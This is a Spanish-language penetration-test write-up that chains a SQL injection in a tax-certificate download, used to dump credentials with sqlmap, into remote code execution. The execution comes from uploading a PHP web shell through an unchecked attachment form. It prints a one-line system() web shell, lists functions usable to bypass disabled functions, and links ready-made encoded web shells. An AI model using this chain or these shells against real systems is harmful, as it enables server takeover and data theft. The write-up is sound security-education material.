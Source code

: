 ```yaml
---
title: "Mi Primer Ejecución de Código a través de una Subida Irrestricta de Ficheros"
draft: false
weight: 50
contributors: ["Kryot"]
date: 2021-11-11T09:19:42+01:00
---
```


### RESUMEN
 Para la explotación del mismo, primero fue necesario explotar una sql injection de la cual se obtuvo el usuario y contraseña de los empleados registrados en la aplicación. Posteriormente, gracias a un formulario de PQRS (Peticiones, quejas, reclamos y sugerencias) que permitía adjuntar archivos fue posible ejecutar comandos en el servidor.

 ---
 ### SQL INJECTION

 Inicialmente, para la explotación de esta vulnerabilidad, se procede a solicitar la descarga de certificados tributarios.

 {{< img-simple src="sqli1.png">}}
 

 Se intercepta la solicitud de descarga para evaluar la entrada de los parámetros presentes en la misma, donde se identifica que es posible provocar un error en la sintaxis SQL al agregar una comilla simple en el valor del parámetro cédula.

 {{< img-simple src="sqli2.png">}}

Como se puede observar en la evidencia a continuación el parámetro no es sanitizado correctamente, lo que desencadena en un error en la sintaxis SQL.

 {{< img-simple src="sqli3.png">}}

Finalmente, con el fin de automatizar el proceso de explotación de dicha vulnerabilidad, se hace uso de sqlmap para infiltrar sentencias SQL y extraer información de la base de datos.

 {{< img-simple src="sqli4.png">}}

### RCE


Una vez obtenidas las credenciales a partir de la inyección SQL fue posible iniciar sesión en la aplicación con los distintos usuarios, entre los cuales se destaca el usuario "comercial", que era capaz de crear formularios PQRS y adjuntar archivos en el mismo. 

Se procedió a crear un formulario, rellenarlo con datos aleatorios y adjuntar una shell en php.

 {{< img-simple src="rce1.png">}}

 El archivo shell.php contiene la siguiente línea de código, que permitiría la ejecución de comandos en el servidor a través de la función system de php.

 ```
 <?php echo system($_GET["cmd"]); ?>
 ```

 Si bien la aplicación indicaba que solo se podían subir archivos JPG y PNG, no hubo ningun incoveninte en adjuntar un fichero php, nisiquiera hubo necesidad de realizar un bypass ya que la aplicación nunca realizaba un control sobre el fichero que se adjuntaba.

  {{< img-simple src="rce2.png">}}

  Al revisar el fichero, me encontré con que no fue posible ejecutar comandos debido a que la función system de php se encontraba correctamente deshabilitada.

 {{< img-simple src="rce3.png">}}

Posteriormente, procedí a ejecutar otro fichero php que indica las funciones potencialmente peligrosas que podemos utilizar para ejecutar comandos. Se puede descargar el script del siguiente <a href="https://raw.githubusercontent.com/l3m0n/Bypass_Disable_functions_Shell/master/shell.php" target="_blank">repositorio</a>

 {{< img-simple src="rce4.png">}}

Como se puede observar las únicas funciones disponibles eran:

```
pcntl_exec
mail
imap_open
imap_mail
error_log
mb_send_mail
putenv
ini_set
symlink
link
```

Despúes de una serie de intentos fallidos intentando utilizar algunas de las funciones habilitadas para conseguir un rce y ya quedandome sin ideas, decidí probar con una vieja y conocida webshell que esta encodeada y probablemente funcionaría. 

Para sorpresa, la webshell de <a href="https://raw.githubusercontent.com/TheBinitGhimire/Web-Shells/master/PHP/smevk.php" target="_blank">Smevk</a> funcionó.

 {{< img-simple src="rce5.png">}}

 Luego, sabiendo que la solución era utilizar una webshell encodeada decidí utilizar <a href="https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/source/b374k-2.3.php" target="_blank">b374k</a> que es mas nueva, intuitiva, útil y elegante.

{{< img-simple src="rce6.png">}}

En conclusión, a veces la solución es más sencilla de lo que uno cree y jamás hay que subestimar el poder de las viejas webshells.